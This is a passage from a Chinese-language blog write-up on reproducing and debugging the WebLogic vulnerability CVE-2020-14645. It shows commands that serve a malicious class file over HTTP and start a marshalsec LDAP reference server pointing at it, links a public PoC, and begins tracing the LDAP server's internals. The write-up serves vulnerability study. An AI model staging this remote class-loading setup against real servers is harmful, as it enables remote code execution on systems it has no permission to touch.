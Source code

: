 配置调试环境与之前类似，可以参考[Windows调试WebLogic](https://blog.csdn.net/defonds/article/details/83510668)。

[![](https://p1.ssl.qhimg.com/t01dedab2f0752d527c.png)](https://p1.ssl.qhimg.com/t01dedab2f0752d527c.png)

[![](https://p4.ssl.qhimg.com/t01530a37c10333042d.png)](https://p4.ssl.qhimg.com/t01530a37c10333042d.png)

调试环境中会用到的lib是coherence。

[![](https://p5.ssl.qhimg.com/t018b309b8ccdb6a2d8.png)](https://p5.ssl.qhimg.com/t018b309b8ccdb6a2d8.png)

[![](https://p0.ssl.qhimg.com/t01f5c9da68c188b55a.png)](https://p0.ssl.qhimg.com/t01f5c9da68c188b55a.png)

### <a class="reference-link" name="%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A4%8D%E7%8E%B0"></a>（二）复现

这里复现难度不大，网上有很多可用的PoC，只要起了httpServer和LDAP Server，发PoC即可，

将恶意class文件放在httpserver根目录，先起Httpserver，跟上面一样即可，比较简单了，

```
py -3 -m http.server 7077
```

再起LDAPserver，可以像demo里那样自己起，也可以用工具，

比如marshallsec，

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:7077/#Exploit 7099
```

marshalsec-0.0.3-SNAPSHOT-all.jar为我们编译好的jar文件，marshalsec.jndi.LDAPRefServer 意为我们起的是LDAPServer（另一种即RMIServer），[http://127.0.0.1:7077/#Exploit为codebase(http](http://127.0.0.1:7077/#Exploit%E4%B8%BAcodebase(http) server)，7099即监听的LDAP端口。

[![](https://p4.ssl.qhimg.com/t0163c7c5ef23d79a9f.png)](https://p4.ssl.qhimg.com/t0163c7c5ef23d79a9f.png)

运行[PoC](https://github.com/Y4er/CVE-2020-14645)即可，

[![](https://p4.ssl.qhimg.com/t019786d36c6163dacb.png)](https://p4.ssl.qhimg.com/t019786d36c6163dacb.png)

### <a class="reference-link" name="%EF%BC%88%E4%B8%89%EF%BC%89%E8%B0%83%E8%AF%95"></a>（三）调试

**<a class="reference-link" name="1.%E6%A6%82%E5%86%B5"></a>1.概况**

先简单看下marshallsec的LDAPServer的运作流程，其中有比较多的底层的操作，只稍作跟踪，

作为Server，必然有监听的功能，建立与Client 的连接，

[![](https://p1.ssl.qhimg.com/t011bcf5c9eca2d4bd8.png)](https://p1.ssl.qhimg.com/t011bcf5c9eca2d4bd8.png)
